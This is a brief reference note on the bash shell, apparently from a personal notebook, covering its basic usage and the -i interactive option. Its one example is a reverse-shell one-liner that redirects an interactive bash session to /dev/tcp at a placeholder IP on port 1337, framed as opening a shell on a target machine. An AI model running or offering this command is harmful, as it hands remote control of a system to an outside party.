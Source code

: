 **bash**, short for 'bourne again shell' is a Unix shell and command language.

## Usage 

	bash

Preceding any command with **bash** opens a shell.

## Notable Options

	-i

Makes the shell interactive

## Example

^de9bf6

The following command creates a reverse shell on a target machine in an interactive **bash**.

	bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1337 0>&1
